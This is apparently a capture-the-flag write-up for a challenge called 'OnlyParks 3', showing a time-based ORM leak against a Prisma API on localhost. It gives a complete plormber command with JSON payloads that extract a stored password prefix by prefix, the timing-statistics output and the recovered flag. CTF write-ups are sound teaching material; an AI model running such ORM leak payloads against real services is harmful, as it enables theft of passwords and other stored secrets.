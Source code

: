 # OnlyParks 3 📖🎡🎢

## Write-up

In this challenge, since we do not have access to the output, we have to use a time-based attack. It is a bit harder to use with an ORM, but it is still possible using big queries and statistical analysis. The tool [`plormber`](https://github.com/elttam/plormber) can do it for us.

Here's the command line: `plormber prisma-contains --base-query-json '{"where":{PAYLOAD}}' --leak-query-json '{"clowns":{"some":{"clown":{"password":{"startsWith":"{ORM_LEAK}"}}}}}' --contains-payload-json '{"body":{"contains":"{RANDOM_STRING}"}}' --verbose-stats http://127.0.0.1:5002/api/article`

Output example with the flag.
```
stats analysis comparing flag-08826f5b2a0fb34674c7a808757173e to (G$BF]/6I>x(M'rP!cZzbgD6/R=MVhrytI;[
                                          mean    median       std  size
test_dump_val
(G$BF]/6I>x(M'rP!cZzbgD6/R=MVhrytI;[  0.108509  0.107304  0.021999     3
flag-08826f5b2a0fb34674c7a808757173e  0.285277  0.306284  0.042978     3
p_value for flag-08826f5b2a0fb34674c7a808757173e: 0.004043008900464535

100%|█████████████████████████████████████████████████████████████████████████████████████████████████████| 1/1 [00:00<00:00,  3.31it/s]
stats analysis comparing flag-08826f5b2a0fb34674c7a808757173e5 to 6I72;ZV:#UT}76Q:F7Z#Z~_t-egZR@<4KmBG?
                                           mean    median       std  size
test_dump_val
6I72;ZV:#UT}76Q:F7Z#Z~_t-egZR@<4KmBG?  0.135106  0.122002  0.025362     3
flag-08826f5b2a0fb34674c7a808757173e5  0.270954  0.267134  0.010239     3
p_value for flag-08826f5b2a0fb34674c7a808757173e5: 0.0026670034792631164

Path check detected no errors! Continuing exploitation.
```

## Flag

`flag-08826f5b2a0fb34674c7a808757173e5`

